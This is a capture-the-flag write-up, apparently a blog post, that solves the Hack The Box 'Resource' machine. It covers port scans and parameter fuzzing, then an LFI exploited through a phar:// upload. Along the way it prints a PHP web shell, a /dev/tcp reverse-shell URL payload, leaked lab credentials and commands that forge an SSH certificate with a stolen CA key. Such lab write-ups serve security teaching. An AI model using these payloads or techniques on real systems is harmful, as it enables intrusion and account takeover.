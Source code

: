 ```yaml
---
title: "Resource - Hack The Box Machines"
date: 2024-08-08 08:00:00 - 0500
categories: [Hack The Box, Machines]
tags: [htb, machine, web, resource, seasonvi]
image: 
  path: /assets/img/posts/htb/Resource/resource.png
---
```



## Reconnaisance

![Desktop View](/assets/img/posts/htb/e83ac2321955bd2e0beb788d47fa5ae9.png){: width="972" height="589" }
_Resource HTB Season VI_

Hello, everyone! 👋 Welcome back. This is the first machine challenge of `Season VI` and it has a medium difficulty level. As with many previous attempts to pwn a box, I will use the `nmap` tool to scan the target machine and determine which ports are open.

```bash
[user@machine] - $ nmap -p- 10.10.11.x -T4 --min-rate=1000 -Pn --disable-arp-ping -oN nmapscan
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-04 10:59 EDT
Warning: 10.10.11.x giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.11.x
Host is up (0.073s latency).
Not shown: 63965 closed tcp ports (conn-refused), 1567 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
2222/tcp open  EtherNetIP-1

Nmap done: 1 IP address (1 host up) scanned in 104.88 seconds
```
{: .nolineno }


With the initial scan, I determined that three ports are open on the target machine: 22, 80, and 2222.

```bash
[user@machine] - $ nmap -p22,80,2222 -sC -sV 10.10.11.x

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-04 12:10 EDT
Nmap scan report for 10.10.11.x
Host is up (0.12s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 d5:4f:62:39:7b:d2:22:f0:a8:8a:d9:90:35:60:56:88 (ECDSA)
|_  256 fb:67:b0:60:52:f2:12:7e:6c:13:fb:75:f2:bb:1a:ca (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://itrc.ssg.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
2222/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f2:a6:83:b9:90:6b:6c:54:32:22:ec:af:17:04:bd:16 (ECDSA)
|_  256 0c:c3:9c:10:f5:7f:d3:e4:a8:28:6a:51:ad:1a:e1:bf (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.22 seconds
```
{: .nolineno }

From the nmap scan report, we can see that the target machine has the following open ports and services:
- Ports open:
    - 22/tcp: SSH service (OpenSSH 9.2p1 Debian)
    - 80/tcp: HTTP service, redirect to `http://itrc.ssg.htb/` and has an `nginx/1.18.0` server header.
    - 2222/tcp: SSH service (OpenSSH 8.9p1 on Ubuntu)

I am wondering why there are two SSH services open on different ports for two different versions of OpenSSH?<br>
Use this command to add an IP and hostname to file `/ect/hosts`

```bash
[user@machine] - $ echo "10.10.11.x itrc.ssg.htb" | sudo tee -a /etc/hosts
```
{: .nolineno }

Next, I accessed the target machine on port 80 at `http://itrc.ssg.htb`, which led me to an IT Support Center page. Reading the introduction section on the website, it mentions `Managing SSH Access`, ...


![Access web](/assets/img/posts/htb/ZUcp4D5uDq.png){: width="972" height="589" }
_Access webpage on port 80_

Next, to see what this website does, I need to register an account and log in.

![Access web](/assets/img/posts/htb/I3ioT1nYNb.png){: width="972" height="589" }
_Login page_

![](/assets/img/posts/htb/774Jbz1Bra.png){: width="972" height="589" }
_Dashboard page_

Use ffuf to `fuzz` the `page` parameter.
```bash
[user@machine] - $ ffuf -u http://itrc.ssg.htb/index.php/\?page\=FUZZ  -w ~/workspace/machine/SecLists-master/Discovery/DNS/n0kovo_subdomains.txt -fs 3120 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://itrc.ssg.htb/index.php/?page=FUZZ
 :: Wordlist         : FUZZ: /home/natsu/workspace/machine/SecLists-master/Discovery/DNS/n0kovo_subdomains.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response size: 3120
________________________________________________

admin                   [Status: 200, Size: 1331, Words: 136, Lines: 26]
login                   [Status: 200, Size: 2709, Words: 239, Lines: 44]
register                [Status: 200, Size: 2842, Words: 255, Lines: 45]
dashboard               [Status: 200, Size: 1331, Words: 136, Lines: 26]
db                      [Status: 200, Size: 2276, Words: 158, Lines: 35]
ticket                  [Status: 200, Size: 1331, Words: 136, Lines: 26]
index                   [Status: 200, Size: 2276, Words: 158, Lines: 35]
logout                  [Status: 200, Size: 2627, Words: 196, Lines: 39]
```
{: .nolineno }

Accessing the `page=admin`, I see several tickets with subjects such as `Malware in finance dept` and `SSH Key Signing Broken`, but I cannot access most of these tickets to view their detailed contents.

And one notable thing is that under Admin Tools, I see `Contact zzinter for manual provisioning`

![Access web](/assets/img/posts/htb/wl6B6DycYy.png){: width="972" height="589" }
_Access web at admin page_

Going back to the dashboard, I tried to create a ticket with the subject `New ticket` and uploaded a ZIP file.
![](/assets/img/posts/htb/VT7KF8aPSu.png){: width="972" height="589" }

When I right-clicked on the `file.zip` location, I saw that the uploaded file is stored at the path: `itrc.ssg.htb/uploads/a00308c0438df0f0cb98f5261ca9124e57fcd1ed.zip`
![](/assets/img/posts/htb/f4fL4Yfuzg.png){: width="972" height="589" }

Looking at the filename, it appears to be some sort of hash, and it is indeed a SHA-1 hash.
![](/assets/img/posts/htb/ePZVwFwTED.png){: width="972" height="589" }
_sha1sum file.zip_

After uploading a regular ZIP file, I tried uploading an empty file to see if any errors occurred.
In the response, I noticed that two functions mentioned in the misreporting are `ZipArchive::open()` and `hash_file()` in the file `/var/www/savefile.inc.php`

![Access web](/assets/img/posts/htb/AhbMSzXGYE.png){: width="972" height="589" }
_Upload empty file zip_

## LFI loophole 
![Access web](/assets/img/posts/htb/sT30Q7ekyj.png){: width="972" height="589" }
_Access file in /var/www/itrc_

Test the LFI loophole with some protocols like `file`, `dict`, `phar`: `itrc.ssg.htb/?page=file:///var/www/itrc/create_ticket`.
![Access web](/assets/img/posts/htb/ajWwYf5yLu.png){: width="972" height="589" }
_LFI loophole_

## RCE www-data
Upload file shell and RCE

```bash
<?php
	system($_GET["cmd"]);
	__HALT_COMPILER();
?>
```
{: .nolineno }

```bash
$ zip shell.zip shell.php
$ sha1sum shell.zip
```
{: .nolineno }

```
http://itrc.ssg.htb/?page=phar://uploads/aee15c9bfb55e6c04a49b57d2c62a215f62e1d26.zip/shell&cmd=/bin/bash+-c+%27/bin/bash+-i+%3E%26+/dev/tcp/<your ip>/9001+0%3E%261%27
```
Listen and get reverse shell.
![](/assets/img/posts/htb/5zT91t6m6p.png){: width="972" height="589" }
_Reverse shell_

```bash
www-data@itrc:/var/www/itrc$ cat db.php

<?php

$dsn = "mysql:host=db;dbname=resourcecenter;";
$dbusername = "jj";
$dbpassword = "ugEG5rR5SG8uPd";
$pdo = new PDO($dsn, $dbusername, $dbpassword);

try {
    $pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
} catch (PDOException $e) {
    die("Connection failed: " . $e->getMessage());
}
```
{: .nolineno }

![Access web](/assets/img/posts/htb/HikHECRoHm.png){: width="972" height="589" }
_Home folder_

## msainristil@itrc

As mentioned earlier in the admin page, we saw several tickets that had already been created, and upon checking the uploads directory, I found multiple ZIP files. It's possible that, besides the files I uploaded, the remaining files were uploaded by those tickets.

I used zipgrep to check if any of these ZIP files contain sensitive information.

```bash
$ for zipfile in *.zip; do zipgrep "msainristil" "$zipfile"; done

"user=msainristil&pass=82yards2closeit"
```
{: .nolineno }
![Access web](/assets/img/posts/htb/eNkVNvGhaF.png){: width="972" height="589" }
_User msainristil_

SSH to target machine with username and password `msainristil:82yards2closeit`


![Access web](/assets/img/posts/htb/ObNMYEca1Y.png){: width="972" height="589" }
_SSH user msainristil_

![Access web](/assets/img/posts/htb/IDhUIWevhR.png){: width="972" height="589" }
_Certificate CA_

## zzinter@itrc 

```bash
$ ssh-keygen -t rsa -b 2048 -f yzx
$ ssh-keygen -s ca-itrc -I ca-itrc.pub -n zzinter yzx.pub
$ ssh-keygen -Lf yzx-cert.pub
$ ssh -o CertificateFile=yzx-cert.pub -i yzx zzinter@localhost
```
{: .nolineno }

![Access web](/assets/img/posts/htb/EquSHNMrMP.png){: width="972" height="589" }
_Get user flag_


